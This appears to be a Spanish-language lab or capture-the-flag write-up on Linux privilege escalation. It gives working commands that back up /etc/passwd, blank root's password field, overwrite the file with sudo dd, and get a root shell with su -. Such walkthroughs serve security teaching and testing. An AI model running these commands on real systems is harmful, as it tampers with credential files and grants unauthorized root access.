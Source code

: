 1.  **Crear una copia de seguridad de `/etc/passwd`:** Esto es crucial para poder restaurar el archivo si algo sale mal.

    ```bash
    cat /etc/passwd > passwdBackup
    ```

2.  **Modificar la copia de seguridad:** Editamos `passwdBackup` para eliminar la `x` de la entrada de `root`. La línea `root:x:0:0:root:/root:/bin/bash` debe convertirse en `root::0:0:root:/root:/bin/bash`.

3.  **Sobrescribir `/etc/passwd` con `dd`:** Utilizamos `dd` para copiar el contenido de nuestro archivo modificado (`passwdBackup`) sobre el archivo original `/etc/passwd` con permisos de `root`.

    ```bash
    LFILE=/etc/passwd
    cat passwdBackup | sudo dd of=$LFILE
    ```

    Esto sobrescribirá el archivo `/etc/passwd` del sistema con nuestra versión modificada, eliminando la contraseña de `root`.

4.  **Cambiar a `root`:** Ahora, podemos usar el comando `su -` (que intenta iniciar sesión como `root` por defecto) y no nos pedirá contraseña.

    ```bash
    su -
    ```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```
